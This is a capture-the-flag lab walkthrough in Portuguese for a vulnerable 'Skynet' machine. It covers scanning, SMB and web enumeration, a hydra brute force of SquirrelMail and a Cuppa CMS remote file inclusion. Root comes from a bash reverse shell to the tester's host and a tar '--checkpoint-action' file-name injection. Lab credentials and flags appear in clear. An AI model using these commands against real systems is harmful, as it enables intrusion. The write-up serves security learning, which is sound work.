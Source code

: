 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%20250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![[Pasted image 20250211172131.png]]
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![[Pasted image 20250211172249.png]]
![[Pasted image 20250211132254.png]]
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```

![[Pasted image 20250211132115.png]]

![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```

![[Pasted image 20250211125533.png]]

![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![[Pasted image 20250211125717.png]]

![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![[Pasted image 20250211125057.png]]

![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![[Pasted image 20250211124302.png]]

![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root

![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949

